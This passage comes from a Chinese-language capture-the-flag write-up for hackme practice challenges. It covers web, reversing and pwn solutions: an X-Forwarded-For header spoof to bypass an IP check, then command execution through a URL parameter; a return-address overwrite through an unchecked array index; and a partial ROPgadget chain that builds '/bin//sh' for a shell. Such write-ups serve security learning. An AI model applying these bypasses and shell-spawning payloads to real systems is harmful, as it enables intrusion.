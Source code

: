 後面那串`5ada11fd9c69c78ea65c832dd7f9bbde`就是`cat flag`

接著還要繞過`wp_get_user_ip() === '127.0.0.1'`，才會執行後面那一坨

這邊跟進去可以發現，可以用`X-Forwarded-For` header來繞過IP限制

接著只要訪問`https://wp.hackme.inndy.tw/?passw0rd=cat%20flag`就噴FLAG惹

## Reversing

### helloworld

`objdump -d -M intel ./helloworld`

可以看到比較的部分：

`cmp    eax,0x12b9b0a1`

所以只要輸入`0x12b9b0a1`，也就是`314159265`，就會噴FLAG

### simple

可以發現他會把我們輸入的字串，每個chr的ascii加1

然後跟`UIJT.JT.ZPVS.GMBH`做比較

所以只要把這串每個ascii都減1，就是FLAG惹

```python
a = 'UIJT.JT.ZPVS.GMBH'

for i in range(len(a)):
    print chr(ord(a[i])-1),
```

## Pwn

### catflag

直接連上就有shell惹

### homework

這題修改陣列沒限制範圍

可以直接改到後面的return address (index: 14)

直接改成`call_me_maybe()`的位址即可(0x080485fb = 134514171)

### ROP

直接用`ROPGadget`即可

```python
#!/usr/bin/env python2
from struct import pack

# Padding goes here
p = 'a'*16
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
```